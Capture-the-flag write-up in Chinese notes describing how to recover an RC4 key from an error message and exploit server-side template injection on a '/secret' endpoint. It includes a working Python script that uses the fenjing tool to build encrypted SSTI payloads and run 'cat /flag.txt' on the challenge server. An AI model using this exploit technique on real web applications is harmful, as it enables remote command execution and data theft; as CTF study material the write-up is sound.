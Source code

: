 # 思路
id:: 64b57451-c669-40ab-98ed-c8de91a1fc2e
	- 通过报错读取加密密钥+SSTI
- # 报错
	- 猜出SSTI URI为`/secret`，参数为`secret`
	- 提交`/secret?secret=114514`发现关键语句`rc=rc4_Modified.RC4("HereIsTreasure")   #解密`
- # SSTI
	- 写一个WAF函数传给fenjing即可
	- 坑： ((64aa797b-5c66-46bd-8e25-dd7a6c1a85ac))
	- 代码：
		- ```python
		  from Crypto.Cipher import ARC4
		  from urllib.parse import quote
		  import functools
		  import requests
		  import fenjing
		  
		  url = "http://node3.anna.nssctf.cn:28163"
		  
		  def encode(s):
		      cipher = ARC4.new(b"HereIsTreasure")
		      ciphertext = cipher.encrypt(s.encode("latin-1"))
		      return quote("".join(chr(c) for c in ciphertext).encode())
		  
		  @functools.lru_cache(1000)
		  def waf(s):
		      print(s)
		      r = requests.get(f"{url}/secret?secret=" + encode(s))
		      return "not allowed" not in r.text
		  
		  if __name__ == "__main__":
		      payload, will_print = fenjing.exec_cmd_payload(waf, "cat /flag.txt")
		      if not will_print:
		          print("payload不会产生回显")
		      r = requests.get(f"{url}/secret?secret=" + encode(payload))
		      print(payload)
		      print(r.text)
		  
		  ```
